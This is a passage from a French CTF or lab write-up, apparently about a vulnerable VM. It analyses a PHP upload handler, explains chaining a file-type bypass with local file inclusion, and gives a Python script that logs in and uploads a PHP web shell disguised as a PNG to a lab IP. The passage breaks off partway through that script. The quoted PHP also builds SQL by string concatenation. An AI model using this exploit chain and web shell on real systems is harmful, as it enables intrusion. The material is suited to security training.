 ```php
       $image = array('jpeg','jpg','gif','png');
       if (in_array($r, $image)) {
           $finfo = @new finfo(FILEINFO_MIME); 
           $filetype = @$finfo->file($_FILES['image']['tmp_name']);
           if (preg_match('/image\/jpeg/', $filetype )  || preg_match('/image\/png/', $filetype ) || preg_match('/image\/gif/', $filetype )) {
               if (move_uploaded_file($_FILES['image']['tmp_name'], 'uploaded_images/'.$_FILES['image']['name'])) {
                   echo "Uploaded successfully ";
                   $update = 'insert into users (name, address, image, id) values(\''.$name.'\', \''.$address.'\', \''.$iname.'\', \''.$id.'\')'; 
                   mysqli_query($conn, $update);
               }
           } else {
               echo "<br>i told you dear, only png,jpg and gif file are allowed";
           }
       } else {
           echo "<br>only png,jpg and gif file are allowed";
       }
    }
}
```

Ce fichier est intéressant. On voit que si la variable `continue` est définie alors on peut provoquer une LFI via le paramètre `load`.

Deuxièmement on peut uploader un fichier. Le type mime est vérifié, mais on peut tout à fait passer cette vérification en plaçant un entête de fichier PNG.

En revanche l'extension doit faire partie d'une whitelist qu'on ne peut pas bypasser.

Le principe d'exploitation est le suivant : on se connecte, on uploade un fichier contenant du code PHP (mais avec un header PNG et extension `.png`) puis on l'inclut via le paramètre `load`.

J'ai écrit le code Python suivant qui automatise l'exploitation :

```python
import requests

filename = "myshell.png"

session = requests.Session()
response = session.post(
    "http://192.168.56.198/index.php",
    data={
        "un": "biLLu", 
        "ps": "hEx_it",
        "login": "let's login",
    }
)

if "Try again" in response.text:
    print("Auth failed")
    exit()

response = session.post(
    "http://192.168.56.198/panel.php",
    data={
        "upload": "whatever",
    },
    files={
        "image": (filename, b'\x89PNG\r\n\x1a\n\x00\x00\x00\rIHDR\x00<?php system($_POST["cmd"]); ?>\n')
    }
)
if "only png,jpg and gif file are allowed" in response.text:
```